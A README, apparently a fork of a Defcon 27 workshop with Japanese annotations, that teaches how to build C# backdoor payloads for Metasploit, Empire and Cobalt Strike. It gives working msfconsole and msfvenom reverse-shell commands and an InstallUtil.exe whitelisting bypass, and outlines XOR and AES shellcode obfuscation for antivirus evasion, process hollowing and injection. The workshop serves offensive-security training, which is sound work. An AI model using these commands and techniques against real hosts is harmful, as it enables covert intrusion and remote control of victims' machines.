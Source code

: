 # Writing custom backdoor payloads with C#

This workshop aims to provide attendees hands-on experience on writing custom backdoor payloads using C# for the most common command and control frameworks including Metasploit, Powershell Empire and Cobalt Strike. The workshop consists in 8 lab exercises; each of the exercises goes over a different technique that leverages C# and .NET capabilities to obtain a reverse shell on a victim Windows host. The covered techniques include raw shellcode injection, process injection, process hollowing, runtime compilation, parent pid spoofing, antivirus bypassing, etc. At the end of this workshop attendees will have a clear understanding of these techniques both from an attack and defense perspective.

**Skill Level**: Intermediate

**Prerequisites**: Basic to intermediate programming/scripting skills. Prior experience with C# helps but not required.

**Materials**: Laptop with virtualization software. A Windows 10 virtual machine and a Kali Linux Virtual Machine.

The "Writing custom back payloads with C#" workshop was first presented at [Defcon 27](https://www.defcon.org/html/defcon-27/dc-27-workshops.html#velazco). 

## Authors

* **Mauricio Velazco** - [@mvelazco](https://twitter.com/mvelazco)

* **Olindo Verrillo** - [@olindoverrillo](https://twitter.com/olindoverrillo)

## Labs

### Lab 1 : Hello World

The goal of this lab is to implement the typical Hello World example with C#. The first exercise uses .NETs Console class to print “Hello World” while the second uses .NETs Platform Invocation Services feature to import and call the Win32 Api MessageBox.

### Lab 2 : Custom Meterpreter Stager

The goal of this lab is to write a custom Meterpreter stager with C# by leveraging the WebClient class to download meterpreter’s second stage and Win32 API functions to copy the second stage in memory and execute it.

```bash
#Run msfconsole and setup a listener:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST [YOUR_IP]
set LPORT 8080

#Create stager by msfvenom
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=Your_Kali_IP LPORT=8080
-f exe > ~/reverse.exe
#twistd3とかでこのmalwareが送信するランダムなURLを確認する
```
確認したランダムなURLで[2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab2/2.cs#L30) の箇所をUpdateする

### Lab 3 : Raw Shellcode Injection

The goal of this lab is to write a custom binary that injects a pre-defined shellcode into memory and executes it. Metasploit’s msfvenom will be used to generate the shellcode and the same Win32 API calls used in Lab 2 will be used to perform the execution.

```bash
#sample
msfvenom -a x64 -p windows/x64/messagebox Text="Hello from shellcode !" -f csharp
#generate shellcode for c#
msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=8080 -f csharp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 674 bytes
Final size of csharp file: 3446 bytes
byte[] buf = new byte[674] {
0xfc,0x48,0x83...
```
Inject to source code([1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab3/1.cs#L30))

#### Bypassing Application Whitelisting ([2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/master/Labs/lab3/2.cs))
##### living off the land and is used by attackers to circumvent controls and avoid detection.
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe 2.cs
#Now for the bypass, we can execute the following command to get InstallUtil.exe to run our assembly, instead of launching it directly
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=
/LogToConsole=false /U 2.exe
#we can abuse InstallUtil.exe and get it to run our code. This way we can bypass application whitelisting technologies and look less suspicious to an analyst.
```
##### Bypssing Applocker
https://jpn.nec.com/cybersecurity/blog/220916/index.html

### Lab 4 : Shellcode Obfuscation

The goal of this lab is to reduce detection of the custom payloads by signature based anti-malware. We can achieve this by obfuscating the shellcode generated by msfvenom using two common techniques: XOR and AES
- [1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/1.cs#L28): でLab3のshellcodeをpasteし、xorしたやつを出力。keyはABCDE。
- [2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/2.cs#L47): にそのxorしたやつをpaste,compile,実行。C2へアクセスが成功する。
- [3.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/3.cs#L14)上のやつのAES版。lab3の生のshellcodeをpaste。AES暗号化されたやつが出力される。先に表示されるやつが暗号化されたcode
- [4.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/4.cs#L38) にその暗号化したやつをpaste,compile,実行。C2へアクセスが成功する。
>

### Lab 5 : PowerShell without PowerShell.exe

The goal of this lab is to execute a Powershell script and avoid to use the powershell.exe binary by leveraging the .NET framework and C#. Using this technique, we will get a Powershell Empire agent.  

```powershell
csc.exe /reference:"C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\3.0\System.Management.Automation.dll" 1.cs
```

### Lab 6 : DLL Injection

The goal of this lab is to implement the DLL Injection technique using C# and obtain a reverse shell from a victim host. Using 3 different exercises, we will understand and implement the different steps for a successful injection.

### Lab 7 : Process Hollowing

The goal of this lab is to understand and implement the Process Hollowing technique using C# technique to obtain a reverse shell on a victim host. 

### Lab 8 : Parent Process Spoofing

The goal of the final lab is to leverage C# to spawn a new process spoofing its parent process and inject shellcode to it to obtain a reverse shell.

## Acknowledgments

Most of the labs on this workshop started from a Github repository/gist, a Stack Overflow code snippet or a Google search. Thank you to everyone who shares code for others to learn from.

* https://github.com/pwndizzle/c-sharp-memory-injection
* http://www.codingvision.net/miscellaneous/c-inject-a-dll-into-a-process-w-createremotethread
* https://github.com/re4lity/subTee-gits-backups
* https://www.codeproject.com/Articles/769741/Csharp-AES-bits-Encryption-Library-with-Salt
* https://gist.github.com/Arno0x/7f34e869cc847e088d3e107632e18294
* https://github.com/leoloobeek/csharp/blob/master/ExecutionTesting.cs



